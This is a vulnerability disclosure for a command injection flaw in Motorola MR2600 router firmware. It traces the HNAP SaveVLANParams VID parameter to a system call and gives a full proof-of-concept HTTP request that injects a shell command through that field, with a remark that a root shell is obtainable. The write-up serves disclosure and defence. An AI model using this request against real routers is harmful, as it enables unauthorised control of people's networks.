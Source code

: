 # Motorala MR2600 MR2600-v1.0.14.img Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.motorola.com/
- Firmware download address ： https://www.motorolacable.com/support/MR2600/software/

## 1. Affected version

![image-20220522091248943](img/image-20220522091248943.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220522105141535](img/image-20220522105141535.png)

By/SaveVLANParams/VLANIDInfoLists/VLANID: 0 / VID to v18 parameters of access to content

![image-20220522105203002](img/image-20220522105203002.png)

Format v18 into v54 with the snprintf function, setting v54 to the value of WAN_WAN0_IFNAME

![image-20220522105240553](img/image-20220522105240553.png)

Rc program passes the content obtained by nvram_safe_GET function to V4, formats V4 into V9 by snprintf function, and finally executes the content in V9 by twsysytem. Command injection vulnerability exists

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware MR2600-v1.0.14.img
2. Attack with the following POC attacks

```
POST /HNAP1/ HTTP/1.1
Host: 81.70.52.167:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://81.70.52.167:7018
Connection: close
Referer: http://81.70.52.167:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SaveVLANParams xmlns="http://purenetworks.com/HNAP1/">
	<VLANIDInfoLists>
		<VLANID:0>
			<VID> && ls > /tmp/456 && echo 1</VID>
		</VLANID:0>
	</VLANIDInfoLists>
</SaveVLANParams>
</soap:Body>
</soap:Envelope>
```

![image-20220405112133823](img/image-20220405112133823.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

![image-20220522091701627](img/image-20220522091701627.png)